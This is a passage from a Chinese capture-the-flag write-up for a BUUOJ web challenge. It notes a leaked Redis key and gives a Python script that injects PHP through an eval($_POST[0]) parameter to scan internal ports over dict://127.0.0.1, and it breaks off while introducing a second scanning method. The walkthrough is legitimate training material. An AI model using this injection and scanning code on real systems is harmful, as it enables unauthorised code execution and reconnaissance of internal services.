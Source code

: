 看到了与redis相关的东西,得到了redis的`key:"ye_w4nt_a_gir1fri3nd"`

因为这里并不是6379端口,所以我们需要自己去找redis服务对应的端口

这里对端口的扫描有两种方法

**python脚本**

```
import requests
from urllib import parse

url = "http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval($_POST[0]);"
headers = {"content-type": "application/x-www-form-urlencoded"}

payload = '''
      function Curl($url) {
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $url);
            curl_setopt ( $ch, CURLOPT_RETURNTRANSFER, true );
            $result = curl_exec($ch);
            curl_close($ch);
            if($result!=''){
            echo $result.$url;
            }

        } 
        for($i=0;$i<9999;$i++){
            Curl("dict://127.0.0.1:$i/info");
            }
        '''

data = {
    0: payload
}

r = requests.post(url, data=data, headers=headers).text
print(r)
```

![image-20220217194413362](images/17.png)

复现了80和8888端口

**上传文件**

file_put_contents还可以用,使用 stream_socket_server() 来探测端⼝

将以下代码写入到当前目录下
